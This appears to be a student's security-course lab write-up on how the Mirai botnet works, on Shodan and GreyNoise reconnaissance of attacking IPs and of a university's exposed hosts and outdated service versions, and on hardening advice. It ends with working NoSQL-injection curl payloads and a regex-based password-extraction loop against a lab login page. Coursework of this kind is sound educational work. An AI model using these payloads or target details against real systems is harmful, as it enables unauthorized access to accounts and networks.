 # Exercise 1: Botnets

## How does the botnet work?
The Mirai botnet can be broken into steps:
1. Scan the Internet for devices
2. Brute-force devices on passwords (62 user-password pairs)
3. Infected devices call home (send device specs to Reporting Server)
4. Bot-master talks to RS via the Command & Control server (through TOR)
5. Bot-master decides which bots will be infected
6. Bot-master sends malware code trough `wget` and patching the system - updating the username-password pair
7. Bot-master finds a target for attack (IP + duration)
8. Bots attack target with one of the 10 available attack variations using Generic Routing Encapsulation (GRE), `TCP` and `HTTP` flooding attacks

> Mirai botnet is known for 2 main attack vectors: bruteforce attempts and exploitation of IoT vulnerabilities. Preferred method for expanding - scanning the Internet for open telnet/SSH servers on known ports. Vulnerability exploitation on `V3GA` variant targets Linux environments and embedded devices (Linux embedded)

## What does the botnet do to infect a device?
`MIRAI` uses two methods of infection:

Direct Connection: If a vulnerable device is directly connected to the internet (online), it can connect back to the bot master's IP address and port number selected.

The bots themselves scan the internet for next devices to infect or can be targeted to a specific Internet location. 
* A `worm` just spreads without a Command and Control node (controlled by bot-master).


## Use GreyNoise to find devices matching the attack patterns from V3G4. You can filter the results by CVEs and other tags (e.g.,“iot tags:Mirai”). --> See attacker details

![MIRAI Attacker GreyNoise](image.png)

![Second Attacker](image-3.png)

## • Use Shodan to find out more about the list of IPs you gathered.

![Shodan Attacker](image-1.png)

![VirusTotal Query](image-2.png)

## Which devices did you find? Can you see any common attributes (e.g. open ports, operative system, manufacturer, etc)?
IP addresses: 
83.175.158.17
63.47.114.190
92.54.57.90 - CVE for backdoor attempt, telnet bruteforcer, MIRAI, Generic IoT brute forcer

All have `telnet` port 23 open for brute-force and spreading
Super old operating systems like Linux 2.4 (2001) - current version is Linux 6.8 (2024)
Manufacturer (vendor) - often encountered MicroTik, LinkSys - routers & network devices

What can we do to harden the security of your IoT devices? how can we
prevent our devices from joining a Mirai botnet?

##  What can we do to harden the security of your IoT devices? How can we prevent our devices from joining a Mirai botnet?

* Change Default Credentials: Many IoT devices come with default usernames and passwords which are often used by botnets for unauthorized access. Changing these to strong, unique credentials can significantly reduce the risk.

* Regular Updates: Keep the device firmware and software up-to-date. Manufacturers often release updates that fix known vulnerabilities.

* Firewall and Network Security: Use a firewall to block incoming connections from the internet to IoT devices when possible. Also, segregate IoT devices on their own network separate from critical information systems.

* Disable Unnecessary Services: If an IoT device has services (like Telnet, SSH, or web servers) that are not needed for its operation, disable them to reduce potential attack vectors.

* Intrusion Detection Systems (IDS): Use IDS to monitor network traffic for signs of a botnet or other attack.

* Rate limiting: Implement rate limiting on your network to prevent DDoS attacks which are often carried out by botnets like Mirai.

# Exercise 2: Exposed IoT Devices

## First, find out which addresses DTU exposes to the Internet. You can use WHOIS services, DNS records, or even Shodan to find information about a domain. Hint: try “dtu.dk”

* Find ISP and ASN responsible for DTU domains with Shodan - Danish network for Research & Education, ASN is AS1835 - 739 exposed addresses from DTU

* 

![Shodan DTU](image-4.png) 
Many many vulnerabilities on DTU food devices
![Vulnerabilities](image-5.png)

## Exposed Banner Information

Now, query Shodan or Censys to see which services they expose and their banner information. A banner is the first response a service returns when a client tries to connect to it. You do not need to do this part yourself, you can use Shodan or another meta-scanner to retrieve this information. Focus on IoT protocols, such as the ones botnets target the most (e.g., SSH, MQTT, Telnet, FTP, MySQL...)

* Open ports are usually 80 `HTTP` , 443 `HTTPS`, 22 `SSH`, 21 `FTP`, 3389 `RDP`, 25 `SMTP`, 53 `DNS`, `MQTT`

## Banners Grabbing

Banners contain many interesting details about the exposed service (e.g. encryption mechanisms, authentication policies, service version, or even 2 OS and other device-specific information). Sometimes, it is sufficient to say that we can retrieve their banner in order to say they leak sensitive information. Why do you think this is the case?

* From the banners you see, which information could be used to gain additional insights into the device’s security?

    Using such tools one can observe the vulnerabilities of specific target - one can attempt to perform such vulnerabilities against the target's services and open ports (old and unpatched Apache and OpenSSL versions )

* Is any of these services leaking sensitive information?

    No longer supported versions `OpenSSL/1.1.1k`, `Apache/2.4.37 (rocky)`

    ![Vulnerable (S)FTP](image-6.png)
    ![Login Page DTU WindEnergy](image-7.png)

* Could an attacker use the information from these banners to gain an initial foothold into the network?

    Could attempt to attack the target device with one of the vulnerabilities detected according to service and open ports. Hence, be able to exploit system and gain access

* How would you mitigate these threats?

    1. Restrict access to services on the network
    2. Shut down unused or unnecessary services running on network hosts
    3. You can override your server’s default banner behavior to hide version information. System administrators can customize default banners, configure the network host’s application or operating system to disable the banners, or remove information from the banners that could give an attacker a leg up.
    4. Keep your server and systems up to date to secure your applications against known server exploits - Patched Software and OS
    5. Customize the banners to display a warning message to potential hackers - shows system is being monitored to defer further attacks

    **Bonus**: Clients should use VPN connections to access servers on DTU whenever possible

> Optional HackerLab - Attempt to perform NoSQL injection to the PHP login page(form):

`curl -X POST -d 'username=admin&password[$ne]=foo' https://hackerlab.dtu.dk/chall/login.php`

> Script for queries with various ReGeX starts until password is cracked character by character:
    
`curl -X POST -d 'username=admin&password[$re]=${crackPass}${nextChar}' https://hackerlab.dtu.dk/chall/login.php` for every char in a **CHARSET**